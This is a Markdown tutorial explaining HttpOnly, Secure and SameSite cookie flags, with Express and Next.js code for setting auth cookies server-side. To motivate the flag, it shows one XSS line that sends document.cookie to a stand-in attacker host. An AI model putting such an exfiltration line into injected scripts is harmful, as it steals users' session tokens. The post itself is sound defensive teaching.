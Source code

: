 ```yaml
---
title: "Understanding HttpOnly Cookies in Depth"
summary: "How HttpOnly cookies work, why they're essential for security, and how to use them safely in Next.js and Express."
tags: ["cookies", "security", "web", "nextjs", "express"]
publishedTime: "2025-10-14"
---
```


# 🍪 Understanding HttpOnly Cookies

`HttpOnly` cookies are a type of browser cookie that **cannot be accessed via JavaScript**.  
They are designed to protect sensitive data — especially **authentication tokens** — from attacks like **Cross-Site Scripting (XSS)**.

---

## 🔍 What Does `HttpOnly` Mean?

When you set the `HttpOnly` flag on a cookie, the browser stores it **but never exposes it to `document.cookie` or JavaScript APIs**.

That means:

```js
console.log(document.cookie);
// ❌ You will NOT see HttpOnly cookies here.
```

The cookie still goes to the server automatically with every HTTP request to the same origin.

---

## ⚙️ How Browsers Enforce It

Browsers handle HttpOnly cookies internally:
1. The **server sets** a cookie with `Set-Cookie` header.
2. The browser **stores it securely**.
3. On every request to the same domain/path, the browser **attaches the cookie** in the `Cookie` header.
4. JavaScript cannot read or modify it.

✅ This prevents attackers from stealing session tokens via injected scripts.

---

## 🚧 Why It's Important

Without `HttpOnly`, an attacker who injects JavaScript (via XSS) could do:

```js
fetch('https://evil.com?cookie=' + document.cookie);
```

This would expose your session token.  
With `HttpOnly`, that attack fails.

---

## 💡 Secure + HttpOnly = Best Practice

You should **always** combine:
- `HttpOnly` → hides cookie from JavaScript
- `Secure` → only send over HTTPS
- `SameSite` → restricts cross-site sending (helps prevent CSRF)

Example header:

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```

---

## 🧱 Example: Express Backend

```js
import express from "express";
import cookieParser from "cookie-parser";

const app = express();
app.use(cookieParser());

app.post("/login", (req, res) => {
  const token = "user_jwt_token_here";
  res.cookie("token", token, {
    httpOnly: true,
    secure: true,
    sameSite: "strict",
  });
  res.send("Logged in!");
});

app.get("/profile", (req, res) => {
  // You can access it on server:
  const token = req.cookies.token;
  res.json({ message: "Token exists?", token: !!token });
});

app.listen(3001, () => console.log("✅ Express running on port 3001"));
```

---

## ⚛️ Example: Next.js API Route

```ts
// pages/api/login.ts
import type { NextApiRequest, NextApiResponse } from "next";
import { serialize } from "cookie";

export default function handler(req: NextApiRequest, res: NextApiResponse) {
  const token = "jwt_token_here";

  res.setHeader(
    "Set-Cookie",
    serialize("token", token, {
      httpOnly: true,
      secure: process.env.NODE_ENV === "production",
      sameSite: "strict",
      maxAge: 60 * 60 * 24 * 7, // 7 days
      path: "/",
    })
  );

  res.status(200).json({ success: true });
}
```

Now your cookie is automatically sent with every request — **but never visible to `document.cookie`**.

---

## 🧠 Behind the Scenes

When you refresh the page:
- Browser checks stored cookies for matching domain/path.
- Attaches them automatically in the `Cookie` header.
- Server reads them and can validate session or JWT.

No need for localStorage or client-side access.

This **reduces attack surface dramatically** — because even if the client is compromised, tokens aren’t exposed to script access.

---

## ⚔️ Common Mistakes

❌ Setting cookies in client-side JS → breaks security  
✅ Always set cookies via `Set-Cookie` header from server.

❌ Storing JWTs in `localStorage`  
✅ Store them in `HttpOnly` cookies instead.

---

## 🔐 Summary

| Feature | Description | Prevents |
|----------|--------------|-----------|
| **HttpOnly** | Hides cookie from JavaScript | XSS |
| **Secure** | Sends only over HTTPS | MITM |
| **SameSite** | Restricts cross-site | CSRF |
| **Server-set cookie** | Controlled by backend | Tampering |

---

## 🚀 Key Takeaway

> Store your auth tokens in HttpOnly cookies, not in localStorage.  
> They protect against XSS by design — one of the simplest and strongest web security patterns.
